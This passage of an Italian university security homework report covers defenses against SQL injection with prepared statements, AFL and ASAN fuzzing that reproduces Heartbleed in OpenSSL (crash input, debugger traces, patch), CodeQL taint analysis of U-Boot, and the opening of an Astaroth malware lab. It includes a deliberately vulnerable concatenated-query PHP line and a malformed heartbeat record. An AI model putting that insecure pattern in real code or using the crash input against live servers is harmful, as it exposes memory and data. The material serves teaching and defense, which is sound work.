    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/sql_aliceprofile_after.png}
    \caption*{Profilo Alice (Salario aumentato)}
  \end{minipage}\hfill
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/sql_bobyprofile_after.png}
    \caption*{Profilo Boby (Salario ridotto)}
  \end{minipage}
\end{figure}

\subsection{Prepared Statements}

I \textbf{Prepared Statements} sono la difesa principale contro l'SQL Injection perché separano la struttura del comando SQL dai dati inseriti dall'utente.

Invece di unire tutto in una singola stringa, il processo avviene in due fasi:
\begin{enumerate}
  \item \textbf{Template}: Si invia al database lo schema della query usando dei segnaposti (\texttt{?}).
\begin{lstlisting}[language=SQL]
SELECT id, name, eid, salary, ssn FROM credential WHERE name= ? and Password= ?
\end{lstlisting}
  \item \textbf{Dati}: I valori (come username o password) vengono inviati separatamente.
\end{enumerate}

Grazie a questa separazione, il database tratta i dati dell'utente esclusivamente come testo. Anche se un attaccante inserisce caratteri speciali (come \texttt{'}, \texttt{;} o \texttt{\#}), questi non potranno mai alterare il comando SQL originale.

\subsubsection{Confronto tecnico: \texttt{unsafe.php} vs \texttt{prepared\_statement.php}}

\begin{itemize}
  \item \textbf{In \texttt{unsafe.php}}: La query viene costruita concatenando i dati utente direttamente nella stringa. Questo è vulnerabile perché il database non distingue tra il comando e i dati.
\begin{lstlisting}[language=PHP]
// VULNERABILE: query diretta con variabili concatenate
$conn->query("... WHERE name= '$input_uname' ...");
\end{lstlisting}
  \item \textbf{In \texttt{prepared\_statement.php}}: Viene inviata prima la struttura della query e poi i dati. Il database sa già che i dati in arrivo sono semplici valori letterali.
\begin{lstlisting}[language=PHP]
// SICURO: query preparata con segnaposti
$stmt = $conn->prepare("... WHERE name= ? ...");
$stmt->bind_param("s", $input_uname);
\end{lstlisting}
\end{itemize}
\chapter{Fuzzing}

\section{Fuzz OpenSSL with AFL and ASAN}

\textbf{Per eseguire il setup:}
\begin{lstlisting}[language=Bash]
CC=afl-clang-fast CXX=afl-clang-fast++ ./config -d -g -no-shared
AFL_USE_ASAN=1 make build_libs
\end{lstlisting}

\textbf{Creazione certificato:}

\begin{lstlisting}[language=Bash]
openssl req -x509 -newkey rsa:512 -keyout server.key -out server.pem -days 365 -nodes -subj /CN=a/
\end{lstlisting}

\textbf{Per compilare test\_harness:}

\begin{lstlisting}[language=Bash]
AFL_USE_ASAN=1 afl-clang-fast++ handshake.cc -o handshake openssl/libssl.a openssl/libcrypto.a -I openssl/include -ldl
\end{lstlisting}

È stato creato un file di testo come seed per il fuzzing, per effettuarlo si usa:

\begin{lstlisting}[language=Bash]
afl-fuzz -i input -o output -m none -- ./handshake
\end{lstlisting}

Di default, Ubuntu invia i crash a un'app di sistema, ma questa operazione crea un piccolo ritardo. AFL testa migliaia di input al secondo e ha bisogno di rilevare i crash immediatamente. Il seguente comando disattiva la segnalazione di sistema dicendo a Linux di salvare solo un file locale di base (core).

\begin{lstlisting}[language=Bash]
sudo su -c "echo core >/proc/sys/kernel/core_pattern"
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../3.Fuzzing/AFL_ASAN.png}
  \caption{AFL con ASAN abilitato}
\end{figure}

\section{Riproduzione Heartbleed e diagnosi}
Per diagnosticare il bug, eseguiamo il programma dando in ingresso l'input che causa il crash:
\begin{lstlisting}[language=Bash]
./handshake < output/default/crashes/id\:000000\,sig\:06\,src\:000030+000023\,time\:711360\,execs\:109670\,op\:splice\,rep\:2
\end{lstlisting}

L'errore rilevato è un heap-buffer-overflow:
\begin{lstlisting}[language=Bash]
==121651==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x629000009748 at pc 0x00000049c767 bp 0x7fffbf3309f0 sp 0x7fffbf3301b8
\end{lstlisting}

Il bug si trova nel file \texttt{t1\_lib.c}, alla riga 2586, all'interno della funzione \texttt{tls1\_process\_heartbeat}:
\begin{lstlisting}[language=Bash]
READ of size 48830 at 0x629000009748 thread T0
    #0 0x49c766 in __asan_memcpy (/home/unina/Scrivania/homework/Homework_Software_Security/3.Fuzzing/handshake+0x49c766)
    #1 0x4ded5f in tls1_process_heartbeat /home/unina/software-security/fuzzing/heartbleed/openssl/ssl/t1_lib.c:2586:3
    #2 0x5535da in ssl3_read_bytes /home/unina/software-security/fuzzing/heartbleed/openssl/ssl/s3_pkt.c:1092:4
    #3 0x558139 in ssl3_get_message /home/unina/software-security/fuzzing/heartbleed/openssl/ssl/s3_both.c:457:7
    #4 0x520be0 in ssl3_get_client_hello /home/unina/software-security/fuzzing/heartbleed/openssl/ssl/s3_srvr.c:941:4
    #5 0x51c97e in ssl3_accept /home/unina/software-security/fuzzing/heartbleed/openssl/ssl/s3_srvr.c:357:9
    #6 0x4d1d03 in main /home/unina/Scrivania/homework/Homework_Software_Security/3.Fuzzing/handshake.cc:47:3
    #7 0x7ff2866c3d8f in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #8 0x7ff2866c3e3f in __libc_start_main csu/../csu/libc-start.c:392:3
    #9 0x4204c4 in _start (/home/unina/Scrivania/homework/Homework_Software_Security/3.Fuzzing/handshake+0x4204c4)
\end{lstlisting}

Il buffer originale, da cui il programma sta cercando di leggere troppi dati, è stato allocato tramite la funzione \texttt{CRYPTO\_malloc} all'interno del file \texttt{mem.c} alla riga 308:
\begin{lstlisting}[language=Bash]
0x629000009748 is located 0 bytes to the right of 17736-byte region [0x629000005200,0x629000009748)
allocated by thread T0 here:
    #0 0x49d3ad in malloc (/home/unina/Scrivania/homework/Homework_Software_Security/3.Fuzzing/handshake+0x49d3ad)
    #1 0x58ac89 in CRYPTO_malloc /home/unina/software-security/fuzzing/heartbleed/openssl/crypto/mem.c:308:8
\end{lstlisting}

Esecuzione con gdb:
\begin{lstlisting}[language=Bash]
pwndbg> set breakpoint pending on
pwndbg> break __asan::ReportGenericError
Breakpoint 1 at 0x4a28c4
pwndbg> run < output/default/crashes/id:000000,sig:06,src:000030+000023,time:711360,execs:109670,op:splice,rep:2 
pwndbg> backtrace
#0  0x00000000004a28c4 in __asan::ReportGenericError(unsigned long, unsigned long, unsigned long, unsigned long, bool, unsigned long, unsigned int, bool) ()
#1  0x000000000049c786 in __asan_memcpy ()
#2  0x00000000004ded60 in tls1_process_heartbeat (s=<optimized out>, s@entry=0x618000000080) at t1_lib.c:2586
#3  0x00000000005535db in ssl3_read_bytes (s=0x618000000080, type=<optimized out>, buf=<optimized out>, len=<optimized out>, peek=<optimized out>) at s3_pkt.c:1092
#4  0x000000000055813a in ssl3_get_message (s=0x618000000080, st1=8465, stn=8466, mt=1, max=16384, ok=0x7fffffffda00) at s3_both.c:457
#5  0x0000000000520be1 in ssl3_get_client_hello (s=<optimized out>) at s3_srvr.c:941
#6  0x000000000051c97f in ssl3_accept (s=<optimized out>) at s3_srvr.c:357
#7  0x00000000004d1d04 in main () at handshake.cc:47
#8  0x00007ffff7a78d90 in __libc_start_call_main (main=main@entry=0x4d1b90 <main()>, argc=argc@entry=1, argv=argv@entry=0x7fffffffdfa8) at ../sysdeps/nptl/libc_start_call_main.h:58
#9  0x00007ffff7a78e40 in __libc_start_main_impl (main=0x4d1b90 <main()>, argc=1, argv=0x7fffffffdfa8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdf98) at ../csu/libc-start.c:392
#10 0x00000000004204c5 in _start ()
pwndbg> frame 2
#2  0x00000000004ded60 in tls1_process_heartbeat (s=<optimized out>, s@entry=0x618000000080) at t1_lib.c:2586
2586			memcpy(bp, pl, payload);
pwndbg> print/x payload
$1 = 0xbebe
\end{lstlisting}

eseguendo hexdump 
\begin{lstlisting}[language=Bash]
-C output/default/crashes/id:000000,sig:06,src:000030+000023,time:711360,execs:109670,op:splice,rep:2
\end{lstlisting}
otteniamo il seguente output:
\begin{lstlisting}[language=Bash]
00000000  18 03 01 00 01 01 01 01  01 01 01 01 01 01 01 01  |................|
00000010  01 01 01 01 01 01 01 01  01 01 01 01 01 01 01 01  |................|
00000020  01 01 01 01 01 01 01 01  01 01 16 03              |............|
0000002c
\end{lstlisting}

ciò indica che:
\begin{enumerate}
    \item \underline{Il pacchetto è malformato e troncato}: L'intestazione del file generato da AFL dichiara che il record ha una lunghezza di un solo byte (visibile dai byte \texttt{00 01} all'offset \texttt{0x03}). I byte \texttt{be} non sono fisicamente presenti nell'input.
    \item \underline{Primo out-of-bounds (lettura della lunghezza)}: Il codice di OpenSSL si aspetta di elaborare 3 byte per il messaggio Heartbeat (1 byte per il tipo, 2 byte per capire la lunghezza del payload). Poiché il record fornisce solo 1 byte reale (\texttt{01}), la funzione di lettura (\texttt{n2s}) tenta di leggere i 2 byte mancanti sconfinando oltre i limiti del record, nella memoria adiacente del server.
    \item \underline{Innesco del bug (secondo out-of-bounds)}: Pescando casualmente in quella zona di memoria non inizializzata o sporcata da pattern di debug, OpenSSL legge i byte \texttt{be} e \texttt{be}. Questo valorizza la variabile payload a \texttt{0xbebe} (48830 in decimale), forzando la successiva \texttt{memcpy} a copiare ed esfiltrare 48830 byte di memoria del server. AFL ha quindi sfruttato un piccolo errore di lettura per generare autonomamente la lunghezza falsa necessaria a innescare Heartbleed.
\end{enumerate}

\section{Esecuzione senza ASAN}

Per compilare \texttt{test\_harness} senza ASAN si va nella cartella openssl:
\begin{lstlisting}[language=Bash]
make clean
make build_libs
\end{lstlisting}
poi nella cartella in cui è presente l'eseguibile:
\begin{lstlisting}[language=Bash]
afl-clang-fast++ handshake.cc -o handshake_no_asan openssl/libssl.a openssl/libcrypto.a -I openssl/include -ldl
\end{lstlisting}
rieseguendo senza ASAN e passando in ingresso l'input che causa il crash, il programma termina normalmente, ciò è dovuto a  due fattori principali:
\begin{enumerate}
    \item La natura del bug: Heartbleed è un bug di natura buffer-overread che permette una lettura dei dati nel buffer, senza generare eccezioni o crash e continuando a far funzionare il protocollo. Di conseguenza, in mancanza di un controllo specifico il crash non può essere generato.
    \item Il funzionamento di ASAN: Durante la fase di instrumentation, ASAN inserisce delle redzones attorno ai buffer, che vengono segnati come "Non accessibili". Nel caso in cui una funzione acceda ad un buffer, Asan genera una specifica eccezione, arrestando il funzionamento del programma.
\end{enumerate}

\section{Analisi programma con Valgrind}

Per eseguire il comando con valgrind utilizziamo il seguente comando:
\begin{lstlisting}[language=Bash]
valgrind --track-origins=yes ./handshake_no_asan < output/default/crashes/id\:000000\,sig\:06\,src\:000030+000023\,time\:711360\,execs\:109670\,op\:splice\,rep\:2
\end{lstlisting}

Eseguendo il programma con valgrind notiamo che l'output genera una cascata di errori legati all'uso di memoria non inizializzata:
\begin{lstlisting}[language=Bash]
==127255== Conditional jump or move depends on uninitialised value(s)
==127255==    at 0x45D87E: CRYPTO_malloc (mem.c:300)
==127255==    by 0x40906E: tls1_process_heartbeat (t1_lib.c:2580)
==127255==    by 0x445AA2: ssl3_read_bytes (s3_pkt.c:1092)
==127255==    by 0x44758E: ssl3_get_message (s3_both.c:457)
==127255==    by 0x42D91A: ssl3_get_client_hello (s3_srvr.c:941)
==127255==    by 0x42BAB7: ssl3_accept (s3_srvr.c:357)
==127255==    by 0x403915: main (handshake.cc:47)
==127255==  Uninitialised value was created by a heap allocation
==127255==    at 0x4848899: malloc (in /usr/libexec/valgrind/vgpreload_memcheck-amd64-linux.so)
==127255==    by 0x45D909: CRYPTO_malloc (mem.c:308)
==127255==    by 0x4481A5: freelist_extract (s3_both.c:708)
==127255==    by 0x4481A5: ssl3_setup_read_buffer (s3_both.c:770)
==127255==    by 0x448568: ssl3_setup_buffers (s3_both.c:827)
==127255==    by 0x42D087: ssl3_accept (s3_srvr.c:292)
==127255==    by 0x403915: main (handshake.cc:47)
\end{lstlisting}

Valgrind traccia che i dati problematici provengono da un'allocazione nell'heap avvenuta durante la preparazione dei buffer di lettura SSL (\texttt{ssl3\_setup\_read\_buffer}). Questa memoria viene allocata ma popolata solo in minima parte dai byte effettivamente ricevuti dalla rete.

Quando la funzione \texttt{tls1\_process\_heartbeat} esegue la memcpy fidandosi del parametro contraffatto (falsa lunghezza del payload), finisce per leggere oltre i byte legittimamente scritti, pescando dalla porzione non inizializzata del buffer (o da blocchi adiacenti nell'heap).

Valgrind segnala un'anomalia critica (Use of uninitialised value) nel momento in cui OpenSSL prende questi dati "sporchi" e li elabora attivamente: prima calcolandone l'hash (\texttt{SHA1\_Update}), poi copiandoli (\texttt{memmove}) e infine preparandoli per la trasmissione sulla rete (\texttt{ssl3\_write\_bytes}).

Per utilizzare AFL in persistent mode è necessario modificare il corpo del \texttt{main()} come segue:
\begin{lstlisting}[language=C]
int main() {
  static SSL_CTX *sctx = Init();
  __AFL_INIT();

  while(__AFL_LOOP(1000)){
  SSL *server = SSL_new(sctx);
  BIO *sinbio = BIO_new(BIO_s_mem());
  BIO *soutbio = BIO_new(BIO_s_mem());
  SSL_set_bio(server, sinbio, soutbio);
  SSL_set_accept_state(server);

  const int size = 100;
  unsigned char data[size];

  read(0, data, size);

  BIO_write(sinbio, data, size);

  SSL_do_handshake(server);
  SSL_free(server);
  }
  return 0;
}
\end{lstlisting}

L'output di AFL in persistent mode è il seguente:
\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../3.Fuzzing/AFL_ASAN_PERS.png}
  \caption{AFL in Persistent Mode}
\end{figure}

\section{Eseguire AFL con ottimizzazioni di performance}

Per migliorare l'efficienza del fuzzer, abbiamo modificato il test harness inserendo il ciclo \texttt{\_\_AFL\_LOOP(1000)}. Questo permette ad AFL di utilizzare la modalità Persistent Mode, evitando di ricreare un nuovo processo (tramite \texttt{fork()}) per ogni singolo input testato. L'inizializzazione della libreria OpenSSL (\texttt{Init()}) viene così eseguita una sola volta, ammortizzando enormemente i tempi di caricamento.

Confronto delle Prestazioni (entrambi con ASAN abilitato):
\begin{itemize}
    \item \textbf{Standard Mode}: Come visibile dallo screenshot precedente, il fuzzer si attesta su una velocità di esecuzione di circa 157.5 execs/sec. Per raggiungere $\approx$ 112k esecuzioni, AFL ha impiegato più di 12 minuti.
    \item \textbf{Persistent Mode}: Dallo screenshot, la velocità di esecuzione aumenta a 912.3 execs/sec. Per raggiungere un numero di esecuzioni comparabile ($\approx$ 103k), AFL ha impiegato appena 1 minuto e 46 secondi.
\end{itemize}

L'introduzione del Persistent Mode ha portato a un incremento del throughput di quasi 6 volte. Questo dimostra come, soprattutto in presenza di target complessi e strumentazione pesante come ASAN, bypassare il context switch e l'overhead del sistema operativo per la creazione dei processi sia fondamentale per trovare crash complessi in tempi rapidi.

\section{FIX Heartbleed}
La struttura dati colpita dal bug di Heartbeat è la struttura dati \texttt{ssl3\_record\_st} usata nella funzione \texttt{tls1\_process\_heartbeat} nel file \texttt{t1\_lib.c}.
Il valore di "length" deve essere maggiore o uguale a (\texttt{payload\_length + 1+2+16}). Nella funzione \texttt{tls1\_process\_heartbeat} non è presente nessun controllo che vada a gestire la grandezza di \texttt{payload\_length}.
Per fixare il bug occorre inserire all'inizio della lettura il seguente controllo:

\begin{lstlisting}[language=C]
if(s->s3->rrec.length < (payload + 1 + 2 + 16)) return 0;
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../3.Fuzzing/AFL_ASAN_PERS_FIX.png}
  \caption{AFL dopo la FIX Heartbleed}
\end{figure}

Come dimostra lo screenshot precedente, dopo aver lasciato in esecuzione il fuzzer in modalità persistente per oltre 10 minuti, il contatore dei "saved crashes" è rimasto a 0. Questo fornisce la prova empirica dell'efficacia della patch: qualsiasi pacchetto Heartbeat malformato generato da AFL (che dichiara un payload superiore ai byte effettivamente inviati) viene intercettato dal nuovo costrutto \texttt{if} e scartato silenziosamente (\texttt{return 0}) prima di raggiungere la \texttt{memcpy} fatale. L'assenza di crash e di avvisi da parte di ASAN conferma la completa e corretta mitigazione della vulnerabilità.
\chapter{Static Analysis}

L'obiettivo di questa challenge (proposta dal GitHub Security Lab) è testare e migliorare le abilità di \textit{vulnerability hunting} imparando a padroneggiare CodeQL. La missione consiste nel trovare le \textbf{13 vulnerabilità critiche di Remote Code Execution (RCE)} scoperte dai ricercatori all'interno del bootloader \textbf{U-Boot}. Queste vulnerabilità (identificate dai CVE da CVE-2019-14192 a CVE-2019-14204) si innescano quando U-Boot è configurato per utilizzare la connessione di rete al fine di eseguire il fetching delle risorse di avvio. Il problema di fondo è un potenziale \textbf{buffer overflow} controllato dall'attaccante.

Per individuare i bug in modo mirato, la soluzione CodeQL è stata costruita mediante un approccio step-by-step, imparando gradualmente come modellare le chiamate del codice C e filtrando man mano le chiamate non sicure, fino ad arrivare al file decisivo \texttt{10\_taint\_tracking.ql} in cui viene formalizzata l'analisi finale.

\section{Il Risultato della Query (\texttt{10\_taint\_tracking.ql})}

La query finale costruita nel decimo step è un'analisi automatica volta a tracciare in modo accurato se i valori provenienti dall'esterno finiscono in chiamate insicure della funzione \texttt{memcpy}. 
Nello specifico, utilizzando la libreria \texttt{TaintTracking} di CodeQL (un'analisi \textbf{path-problem} che mostra visivamente in GitHub il percorso dai dati compromessi all'uso), la query rileva casi in cui:
\begin{itemize}
  \item \textbf{La Sorgente (Source):} Un dato in ingresso controllato dall'attaccante proviene dal network (delineato dai risultati delle macro di conversione byte come \texttt{ntohs}, \texttt{ntohl}, \texttt{ntohll}).
  \item \textbf{Il Pozzo (Sink):} Questo dato finisce direttamente per essere utilizzato come argomento della ``dimensione'' parametrizzata in una chiamata \texttt{memcpy}, indicata tramite \texttt{call.getArgument(2)} nel codice.
\end{itemize}

Se la query traccia con successo l'intero percorso dalla \textit{Sorgente} al \textit{Sink}, solleverà un avviso identificando la fetta di codice fallata e mostrando l'errore: \textit{``Network byte swap flows to memcpy without validation''}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../4.StaticAnalysis/img/Query_result.png}
  \caption{Risultato della query su GitHub}
\end{figure}

\section{Il predicato \texttt{isBarrier} per la sanificazione}

Durante la costruzione dell'analisi, sorgono facilmente dei \textit{falsi positivi}: cosa succede se lo sviluppatore utilizza i dati in ingresso e chiama la \texttt{memcpy}, ma prima effettua un controllo sicuro imponendo limiti massimi di grandezza? 
In questi casi il flusso deve interrompersi per validare l'assenza di vulnerabilità. Questo è compito del predicato \texttt{isBarrier(DataFlow::Node node)}:
\begin{enumerate}
  \item \textbf{Controlla un blocco relazionale:} Identifica l'esistenza di una condizione di guardia (es. uno statement \texttt{if}) determinata da operatori relazionali (come \texttt{<}, \texttt{>}, \texttt{<=}, \texttt{>=}).
  \item \textbf{Identifica il campo d'azione:} Si assicura che il nodo che CodeQL sta scansionando (la variabile \texttt{v} \textit{tainted}) stia venendo richiamato.
  \item \textbf{Verifica il limite (Bound check):} Constata che a essere verificata da quell'operatore logico/relazionale sia esattamente quella variabile (se si trova a destra o a sinistra dell'operazione, come ad es. \texttt{length < MAX\_SIZE}).
  \item \textbf{Isola la via sicura:} Conferma infine che questa guardia tuteli il Basic Block esecutivo nel suo ramo \texttt{true}; cioè, l'esecuzione approderà al nodo in cui risiede la \textit{Sink} (la potenziale \texttt{memcpy}) unicamente se l'esito della validazione di sicurezza darà esito positivo. In tal modo erige la ``barriera'', bloccando CodeQL dal segnalarlo come minaccia tra gli eventi di sicurezza.
\end{enumerate}

\section{Automazione con GitHub Actions (\texttt{main.yml})}

Oltre alla validazione e stesura locale della query, è stato integrato un workflow GitHub Actions in \texttt{.github/workflows/main.yml} per un'individuazione trasparente sul repository, simulando un vero applicativo SAST. 

I passaggi principali operati dal virtual environment Ubuntu garantiscono:
\begin{itemize}
  \item \textbf{Trigger event:} Si aziona a ogni singola \texttt{push} direttamente sul branch \texttt{main} (o tramite procedura manuale \textit{dispatch}).
  \item \textbf{Checkout \& Environment:} Preleva il codice sorgente e inizializza l'azione nativa \texttt{github/codeql-action/init@v3} per analizzare il linguaggio C/C++ (\texttt{cpp}), dicendo a CodeQL di focalizzarsi unicamente sulla custom query finale prodotta (\texttt{./4.StaticAnalysis/query\_github\_actions/10\_taint\_tracking.ql}).
  \item \textbf{Dependency Install \& Intercepting Build:} Essendo un linguaggio compilato, CodeQL richiede di ``ascoltare e tracciare'' l'intera procedura di build del progetto per costruirsi a ritroso il database semantico del codice del progetto. A questo scopo, il workflow installa dipendenze chiave per l'utility, entra nel modulo \texttt{u-boot}, lo configura con \texttt{make sandbox\_defconfig} (creando un'infrastruttura di test) per poi iniziare un massiccio processo di make tracciato.
  \item \textbf{Reporting:} Come step finale, scatta \texttt{analyze@v3}. CodeQL sfrutta il database generatosi per eseguire la problem-query, postando gli avvisi localizzati e visibili all'interno della dashboard Security > Code scanning sulla repository di GitHub.
\end{itemize}
\chapter{CyberThreatIntelligence}

In questo laboratorio viene esplorato il malware Astaroth per estrarre informazioni e attaccare una macchina vittima.

Astaroth è un Trojan bancario e un Infostealer, la cui caratteristica principale è quella di essere una minaccia "fileless" (senza file). Astaroth usa un approccio fileless, sfruttando processi di sistema pienamente legittimi, rendendolo un malware estremamente difficile da rilevare per i classici software antivirus basati sulle firme.

Il suo ciclo di utilizzo tipico avviene in queste fasi:
\begin{enumerate}
